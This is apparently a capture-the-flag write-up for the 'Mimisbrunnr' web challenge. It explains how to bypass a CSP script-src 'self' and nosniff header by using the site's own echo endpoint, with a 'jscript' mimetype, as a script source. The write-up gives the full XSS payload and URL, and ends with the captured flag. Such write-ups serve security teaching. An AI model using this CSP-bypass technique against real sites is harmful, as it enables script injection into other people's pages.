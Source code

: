 # Mimisbrunnr (web)

In the challenge we get a form where we should put a link to the same page, but with XSS vulnerability triggered, by showing `alert(1)`.
What we get to work with is a special page which can echo our inputs, but with a few difficulties:

1. There is `Content-Security-Policy script-src 'self'`, so we can load only javascript from the same host
2. There is `X-Content-Type-Options	nosniff` so scripts will load only if mimetype of the resource is correct
3. We get the echo from link `http://mimis.alieni.se:2999/xss?xss=OUR_INPUT&mimis=plain` as part of:

```

                              WELCOME, OUR_INPUT
    /h e h e//////////////////////////////////////////////////////////////////////////////////////`    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMMMMMMNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMMMNs:...-:/++osyhhdmmNNNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMMh-  ``            ```..-://+osyyhdmmNNMMMMMMMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMN/` `.............`````````        ````./dMMMMMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMy.  ..................................... `+mMMMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMm/` `------.............................-+s-  .sNMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMy.  ...-------------------...............+o+o:`  :dMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMm+` `...................------------------:o+++o+.  .sNMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMh-  .:----............................----/oooooooo-   :dMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMNs`  .-----:-::--------....................-++++++oooo:`  `yNMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMN/  `.............-------::::----..........-++++++++oooo+.   +NMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMN:  `-......................---------:------/+++oooo++oooo+.   :mMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMh   .:::-----..........................----++++++++oooooooo+.   hMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMm:.``  ```...-::///:---...................:+++ooooooo++/:-.```.:mMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMNmdhyo+:-`   -oss+..--:::::::----......:++++ooss:-.`.-:+syhdmNMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMNh` `+osso/::-..``.+osooo+//::-/:-../oss`  +mNMMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMo  .+syo++oossoooosossssssss-`    :oss`  /*∕MMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMd` ./sy/   ``./sooosososssyy+/:-../+ss.  .yNMMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMM. `:oy/      `` .-+osoooos//+oosso+sy+/-` /mMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMM: `:oy/           :o-   ``      `//syosy+` .yNMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMM+ `:oy/           -o-            -:ss``+yo.  :dNMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMMs `:sy/           -o.            -:ss`  :ss-   .:o/*∕MMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMMs `:sy/           -o.            -:ss`   -os/``    `oMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMMs `:sy/           -/.            -:ss`    `/oo+:::  /MMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMNds. `:sy/           :+`            -:ss`        `.-`  /*∕MMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMNds+-`    .:syo/+osssooooo/oo+++//::--.` ::ss`    .osso+////*∕MMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMy.    `..-:::oyyyssyyyysyyy+syyyyyssssssss+:sy-`   :mMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMh`   .-::::/ossyyyyyhhhhhhhh/shhhhhhhhhyyyyo:syss+/` `/dMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMM/  `---.-:oyyyhhhhhyhhhhhhhh/yhhhhhhhhhhhyho:syyssss/` `/*∕MMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMN.  /+-----+yyyyhhhyhhhhhhhhh/yhhhhhhhhhhhyho:syyyysss/  sMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMN.  +o/.``../oyyhhhhhhhhhhhhh+hhhhhhhhhhhhys/:syssssyyy. sMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMN.  /+/::-```.-::/+ossyhhhhhhshhhhhhyyso+//:--/o+ossyyy- oMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMN`  ++/:/:-:--......`.----:://://:::::::-://+oossssssss: -MMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMNNmdy/  `oo///:-:/::::::.-:------::-//++++oososssyysssyyssyy/  +hNMMMMMMMMMMMMN-    
    /*∕MMNhyo+/:-.``    `++///:::::::::---::://////:+ooosssssosssssssssssyyy+   `.:oymNMMMMMMMN-    
    /*∕Mh-          `..-:o+://::/::::--::---:::::/::/+oooooosyyssssyyyyyosyy+`       `:yNMMMMMN-    
    /*∕d`    ```..--::/++o+/::::///:::---:::::::::/:/+oooooosyyyssyyyyyssssso/:::`.`    :dMMMMN-    
    /*∕/    `..-::::::///so+///::///:::::::://////:/++ooooosssssssssssssyysysooo+///---  `sNMMN-    
    /*∕+   `----::::::://oso/+//://///:::::///////:/+++++osyyssyyyssysosyysysoooo+++++/``  +NMN-    
    /*∕m-  ``.-::::::::::+oo++++:::///:////:::::////++ooosyyyssyyyssssssssssoooooo+++++/:   dMN-    
    /*∕Mm:   `.-::::-::::::///++/////::///::///////+ooossssssssyyyssyssooooooo+++++++++/`  .mMN-    
    /*∕MMNo.   `.-----::::::::::::+++++++/:++++ooo+osssyyyysysoossooo++++++++++++++++//`  `/*∕N-    
    /*∕MMMMmy/.   `....-:-::::::::://:++/+/+/+o/+oo+osssssso+/+/+////+++++///+///+/:-``  `sMMMN-    
    /*∕MMMMMMMmh+-`    ..--------:::::::::::::::::::://///////////////++///:-:-:/:.    ./dMMMMN-    
    /*∕MMMMMMMMMMNdy/.`      `.......---::-:::::::::::::////://////:.--....    `.``.:ohNMMMMMMN-    
    /*∕MMMMMMMMMMMMMMNds+:.``          ``````...`-:-.....-::::::-..         `.-/oydNMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMNNmdyso+/:-.``                  `````      `.-/oydmNMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNmhysso+//:--....``````.-:/+sydmNMMMMMMMMMMMMMMMMMMMMMMMN-    
    /*∕MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNNNNNNNNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMN-    
    /*/ooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo-- 
```

To overcome the first protection, we simply have to use the same page as the javascript source to load.
As our input we provide `<script src="/xss?xss=SOME_OTHER_INPUT&mimis=SOME_MIMETYPE"/>

To tackle the second protection we need to provide the right mime type for this script.
They were appending `text/` to whatever we provide, and `javascript` didn't work, but we checked other options is `jscript` worked fine.
So we can inject: `<script src="/xss?xss=SOME_OTHER_INPUT&mimis=jscript"/>

The last part requires that this ascii-art with our payload is correctly loaded as javascript source code.
First issue is the `WELCOME, ` part which comes before our payload.
`WELCOME` is not a known symbol in this context so it crashes.
But it seems javascript allows to call functions before they're declared, so we can inject `function WELCOME(){}` and it will work just fine.
Last step is to take care of the ascii-art, but this we can do by injecting `var ooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo; /*`.
Block comment will take care of the most of the picture, and the var will handle the `ooooo`.

As a result the page we inject as source for script is: `http://mimis.alieni.se:2999/xss?xss=alert(1);%20function%20WELCOME(){};var%20ooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo;%20/*&mimis=jscript`

And we inject this by `<html><head><script src="/xss?xss=alert(1); function WELCOME(){};
var ooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo; /*&mimis=jscript"></script> </head></html>`

So the final encoded string is:
`http://mimis.alieni.se:2999/xss?xss=%3Chtml%3E%3Chead%3E%3Cscript%20src=%22/xss?xss=alert(1)%3b%20function%20WELCOME(){}%3b%0Avar%20ooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo%3b%20%2f*%26mimis=jscript%22%3E%3C/script%3E%20%3C/head%3E%3C/html%3E&mimis=html`

And by submitting this we get back the flag: `midnightsun{t3xt_1z_d@ng3r00ze!!}`
